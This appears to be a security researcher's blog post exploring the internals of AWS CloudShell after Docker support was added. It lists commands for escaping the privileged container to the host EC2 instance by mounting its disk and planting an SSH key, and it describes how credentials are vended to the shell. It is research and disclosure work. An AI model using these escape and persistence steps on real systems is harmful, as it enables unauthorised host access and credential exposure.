 ```yaml
---
layout: post
title: Deep dive into AWS CloudShell
date: 2024-01-12 08:07:00 +1100
categories: blog
---
```


AWS CloudShell got a [new capability][whats-new] in January 2024: running Docker 
containers. This piqued my curiosity because Docker-in-Docker usually implies
privileged containers, and I have previously used that to [escape CodeBuild][codebuild]
onto the parent EC2 instance. I wanted to know if the same could be done in 
CloudShell - and how its AWS credential system worked (the environment inherits
the user's credentials, unlike CodeBuild). The short answer is "it can be done", 
and this post goes into a) how to do it and b) documenting what I could learn 
about the inner workings of CloudShell.

## Container escape

The CloudShell environment itself runs on a container on an EC2 instance. "Escaping" 
the container is relatively easy because it is a privileged container. These are 
the steps I took:

1. `sudo -i` to start a shell as `root`.
2. `mkdir /host && mount /dev/nvme0n1p1 /host`. This mounts the host EC2 
   filesystem into the `/host` directory of the container. 
3. `ssh-keygen` to generate an SSH keypair.
4. `cat /root/.ssh/id_rsa.pub >> /host/root/.ssh/authorized_keys`
5. `ssh $(uname -n)` to SSH into the host EC2 instance.

## Looking around

Once on the EC2 instance, I was interested to see how the credentials were provided
to the CloudShell environment. The CloudShell environment has the following two
environment variables that determine credential retrieval:

* `AWS_CONTAINER_CREDENTIALS_FULL_URI=http://localhost:1338/latest/meta-data/container/security-credentials`
* `AWS_CONTAINER_AUTHORIZATION_TOKEN=T0yMmQ5cHLbmd15fL45al1bK1Aw/Ty6rNtQ8V4Q/3DM=`

The first env var is the URL that the AWS CLI and SDKs will send a GET request 
to get credentials. The second env var contains the value sent in the `Authorization`
request header during that request. Based on this, we now know there's a program
listening on local port 1338 and vending credentials - we'll use that in our 
search.

### Containers

On the EC2 host, I ran `docker ps` and saw a few containers running. Running 
`docker inspect $cid` on them reveals that they are managed by AWS ECS. The image 
itself is `507722522093.dkr.ecr.ap-southeast-2.amazonaws.com/mde-images:live_base_100`.
I have copied this to [public.ecr.aws/aidansteele/cloudshell:live_base_100][top-image]
if you want to take a look. 

There are two relevant containers, both running the above image. The first is 
the "controller" container, running `/usr/bin/controller` in a few different
"modes". The `/usr/bin/controller -mode credentials` process is the interesting
one that is serving port 1338.

The second container is the "base" container. It is running the same binary, but
in `base-container` mode. This process is parent to `dockerd`. It uses this
Docker-in-Docker to run a different image:
`117854687782.dkr.ecr.ap-southeast-2.amazonaws.com/scallop-customer-image:latest-patched` - 
this image is copied to [public.ecr.aws/aidansteele/cloudshell:scallop-customer-image-latest-patched][inner-image]. 
This is where the CloudShell environment exists, so it's actually 
Docker-in-Docker-in-Docker. Each CloudShell session runs inside a `tmux` session
in this inner container. 

![diagram](/assets/2024-01-12-diagram.png)

### IAM roles

There are a number of roles involved here:

The EC2 instance role has a role session ARN that looks like this:
`arn:aws:sts::624018990330:assumed-role/moontide-ecs-ec2-cluster-moontidedevstandard1micr-1A1CJ1ZR4CHF9/i-01a473779ad5984cc`. 
This role seems to have the `AmazonEC2ContainerServiceforEC2Role` managed policy
and some explicit denies to further narrow it down.

The ECS-managed containers all use the same "ECS task IAM role". Its ARN looks like:
`arn:aws:sts::624018990330:assumed-role/moontide-task-role-control-plane/i-02d8913df95941b0a22cd3726ead75d0`.

There's the ECS task _execution_ IAM role, used for pulling ECR images and pushing
logs to CloudWatch. Its ARN looks like:
`arn:aws:sts::624018990330:assumed-role/moontide-task-execution-role/i-02d8913df95941b0a22cd3726ead75d0`.

The ECS task IAM role is used by the credential server process to retrieve 
credentials from the private control plane API and return them to the CloudShell
environment on-demand. That API is powered by API Gateway and uses SigV4 (IAM)
authentication. If you install `awscurl` into the "controller" container, you 
can replicate the credential-fetching functionality by running this:

```
awscurl \
  --service execute-api \
  --region ${AWS_REGION} \
  ${CALLBACK_SERVICE_ENDPOINT_DNS}/${INSTANCE_ID}/credentials/role
```

## Assorted thoughts

* There seem to be multiple ECS clusters per CloudShell AWS account. There are
  also multiple CloudShell AWS accounts per region. Two principals in my own account
  got mapped to entirely different CloudShell AWS accounts. I wonder what the
  mapping algorithm is.
* The role session name for the "control plane" role looks like a very long EC2
  instance ID. What is it?
* In my (limited) testing, the EC2 instance is always a t3.medium
* The EC2 instance has a public IP address. I guess this saves money on a NAT
  gateway. It has a security group that allows no inbound traffic, though.
* This "moontide" binary makes a few references to Cloud9, so I think maybe
  there is shared heritage there. I haven't looked into Cloud9 to see how
  closely CloudShell reflects it.
* There are references to interesting objects in S3. I can't figure out how to
  access them. I don't know if that's because they're only useful for Cloud9,
  or there is extra functionality I couldn't reverse-engineer.
* AWS does a good job of defence-in-depth. Even though I "escaped" the container,
  their internal API Gateway is locked down to only allow access in legitimate
  scenarios. Many other places wouldn't do that and have a "soft" interior.
* There is a line in the EC2 userdata that looks like it intends to block access
  to the EC2 IMDS from the containers. It doesn't work, but I'm also so weak at
  `iptables` that I can't even suggest a fix.
* Thanks go to [Christophe Tafani-Dereeper][christophe] and [Nick Frichette][nick] 
  for their collaboration on poking at this. It helped a lot bouncing ideas around 
  with them. 

## Update

I just learned about [this write-up][ronin] of CloudShell published last year.
What stood out to me is that CloudShell previously used Firecracker microVMs,
but no longer does. I wonder why the migration to "regular" EC2 instances occurred.
Maybe it was to support this new functionality (runner Docker containers)?

[whats-new]: https://aws.amazon.com/about-aws/whats-new/2024/01/aws-cloudshell-docker-13-regions/
[codebuild]: https://awsteele.com/blog/2022/02/03/aws-vpc-data-exfiltration-using-codebuild.html
[top-image]: https://ima.ge.cx/public.ecr.aws/aidansteele/cloudshell:live_base_100@sha256:4f0e65aee2f0d3efcee5717afb8d559a413dccdc1077ee9ef214d382baecfc8f
[inner-image]: https://ima.ge.cx/public.ecr.aws/aidansteele/cloudshell:scallop-customer-image-latest-patched@sha256:175f1cd92c6c4cf67433742e3fbf44983430d4f24f6c338241fd1569b0bde700
[christophe]: https://twitter.com/christophetd
[nick]: https://frichetten.com/
[ronin]: https://ronin.ae/news/aws-cloudshell-analysis/
